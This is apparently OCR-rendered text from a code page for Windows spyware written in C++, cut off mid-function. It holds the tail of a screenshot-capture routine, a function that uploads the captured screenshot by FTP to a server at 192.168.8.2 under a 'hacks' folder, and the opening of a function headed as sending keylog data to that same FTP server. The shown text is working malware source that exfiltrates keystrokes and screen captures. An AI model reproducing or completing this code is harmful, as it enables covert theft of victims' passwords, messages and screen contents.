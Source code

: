 ```
	DeleteObject(hbitmap);

	ReleaseDC(GetDesktopWindow(),dc);
	GdiplusShutdown(gdiplustoken);

}

```

#### Send Screenshot to Server Via FTP

```
void ftp_scrshot_send(){

	HINTERNET hInternet;
	HINTERNET hFtpSession;

	DWORD rec_timeout = 5000;

	hInternet = InternetOpen(NULL,INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
		if(hInternet == NULL){
			log_error_file<<"Error:"<<GetLastError();
		}
		else{
			hFtpSession = InternetConnect(hInternet,"192.168.8.2",2121,NULL,NULL,INTERNET_SERVICE_FTP,0,0);
			InternetSetOption(hInternet,INTERNET_OPTION_SEND_TIMEOUT,&rec_timeout,sizeof(rec_timeout));
			if(hFtpSession == NULL){

				log_error_file<<"Error:"<<GetLastError();
			}
			else{
				if(!FtpPutFile(hFtpSession,"core32.mni","hacks/sc/dc.jpg",FTP_TRANSFER_TYPE_BINARY,0)){
					log_error_file<<"Error:"<<GetLastError();
				}
			}	
		}

	log_error_file.close();
}
```
#### Send KeyLog Data to FTP Server

```
void ftplogsend(){


	HINTERNET hInternet;
	HINTERNET hFtpSession;

	DWORD rec_timeout = 2000;

	hInternet = InternetOpen(NULL,INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);

		if(hInternet == NULL){
			log_error_file<<"Error:"<<GetLastError();
		}
		else{
			hFtpSession = InternetConnect(hInternet,"192.168.8.2",2121,NULL,NULL,INTERNET_SERVICE_FTP,0,0);
			InternetSetOption(hInternet,INTERNET_OPTION_SEND_TIMEOUT,&rec_timeout,sizeof(rec_timeout));
```